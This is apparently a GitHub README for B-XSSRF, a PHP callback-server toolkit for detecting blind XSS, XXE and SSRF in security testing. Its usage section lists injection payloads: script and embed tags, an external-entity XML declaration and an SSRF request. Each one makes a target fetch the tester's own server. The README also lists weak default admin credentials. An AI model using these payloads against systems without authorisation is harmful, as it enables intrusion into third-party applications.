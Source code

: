 <h1 align="center">
  <br>
  <a href=""><img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/icon.png" width="70" height="70" alt="B-XSSRF"></a>
  <br>
  B-XSSRF
  <br>
</h1>

<h4 align="center">Toolkit to detect and keep track on Blind XSS, XXE & SSRF</h4>

<p align="center">
  <a href="https://github.com/SpiderMate/PS-Ducky/releases">
    <img src="https://img.shields.io/badge/release-v1.0-blue.svg">
  </a>
  <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
  </a>
    <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/php-5-green.svg">
  </a>
</p>

<img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/dashboard.png" alt="B-XSSRF">

### SETUP
- Upload the files to your server.
- Create a Database and upload <b>database.sql</b> file to it.
- Change the <b>DB Credentials</b> in <b>db.php</b> file.
- Ready.

### USAGE
BLIND XSS 

```
<embed src="http://mysite.com/request.php">
<script src="http://mysite.com/request.php">
```
BLIND XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://mysite.com/request.php"> %ext;
]>
<r></r>
```
SSRF

```
GET /testssrf.php=http://mysite.com/request.php

```
### DEFAULT CREDENTIALS
```
USER : admin@test.com
PASS : 123456
```

